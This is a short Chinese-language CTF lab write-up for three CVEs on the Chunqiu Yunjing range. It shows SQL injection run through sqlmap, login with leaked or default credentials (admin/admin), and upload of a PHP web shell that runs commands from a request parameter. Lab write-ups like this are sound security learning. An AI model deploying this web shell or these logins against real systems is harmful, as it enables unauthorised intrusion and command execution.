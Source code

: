 ### 春秋云镜靶场 2022.11.26

个人思路笔记，很简略。

##### ==CVE-2022-32991==

这个复现比较简单。

该CMS的welcome.php中存在SQL注入攻击。

###### 复现步骤

首先注册一个账号。然后登录进去。

然后用burp抓取数据包，将数据包内容保存在一个txt文件中，然后使用 sqlmap可以将flag跑出来。

##### **==CVE-2022-30887==**

这个复现过程思路还是比较简单，但是知识还是比较多的。

涉及到的操作有 信息搜集，社工，文件上传，命令执行，代码执行。。。。

###### 复现过程

首先我们进入这个界面，发现没有注册模块。只有登录模块，这个时候就要去信息收集了。

收集到的 ==账号==： mayuri.infospace@gmail.com

​                ==密码== ： **mayurik**

成功登录。然后登录到上传药品（谷歌翻译是这样翻译的。。。英文不好）的地方

然后上传一个==shell.php==文件。

在里面写入下列代码

```php
<?php 
if($_REQUEST['m']){
     
     system ($_REQUEST['m']);
}
else phpinfo();
 
?>
```

代码意思很简单，一个判断语句。

然后我们到上传文件的图片处，右击鼠标键。点击复制图片链接。然后访问。正常情况下是会显示phpinfo函数的内容。

然后我们在==url==后面对==m==的值进行输入。

首先我们==ls一下==

在后面加入==?m=ls /== 发现了==flag== r 然后 输入==?m=cat flag/==

成功得到 flag

##### ==CVE-2022-28525==

这关和上一关差不多，都是任意文件上传漏洞，但是这个可以直接弱口令登录

账号 ==admin==

密码 ==admin==

###### 复现过程

我们弱口令登录进去以后，然后找到编辑头像的地方，对头像进行修改。这里还是直接上传前面的==shell.php==内容

然后访问图片地址。显示phpinfo函数界面就是正常的。

下面就是对==m==进行赋值，首先 ==ls==  发现==flag==  然后==cat flag==

成功找到flag

**今天是第一次对漏洞进行复现，好多内容也不是一次就成功复现成功的，还是查了一些资料，以及一些师傅的WP**



优质文章推荐

https://blog.csdn.net/xy404/article/details/127310176















